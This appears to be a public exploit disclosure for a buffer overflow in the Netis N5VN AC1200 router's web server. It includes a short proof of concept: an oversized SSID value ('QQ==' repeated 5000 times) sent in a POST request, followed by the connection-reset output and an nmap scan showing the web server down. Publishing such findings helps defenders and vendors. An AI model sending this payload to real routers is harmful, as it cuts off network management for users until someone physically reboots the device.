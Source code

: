 ## Exploit Title: Netis N5VN AC1200 - Buffer Overflow DOS (Denial of Service)

- Date: 05/03/2024

- Exploit Author: Van Lam Nguyen

- Facebook: fb.com/vanlam1412

- Vendor Homepage: [Netis Systems](https://www.netis-systems.com/)

- Version: Netis N5VN AC1200 V1.0.1.1742

- Tested on: Windows

- CVE : N/A

## Overview

- There exist a buffer overflow vulnerability in Netis N5VN AC1200 router that can allow an attacker to crash the web server running on the router by sending a crafted request

- To bring back the http (webserver), a user must physically reboot the route.

## Proof of Concept (Use python)

- POST request to change ssid Wireless 2.4G ('ssid': 'QQ==' \* 5000)

- Successfully: ('Connection aborted.', ConnectionResetError(10054, 'An existing connection was forcibly closed by the remote host', None, 10054, None))

- nmap 192.168.1.254 -p 80 80/tcp closed http

[Watch the video demonstration here](https://youtu.be/WvplWEa3XhU?si=r1BJhyBbHiKtsukQ)
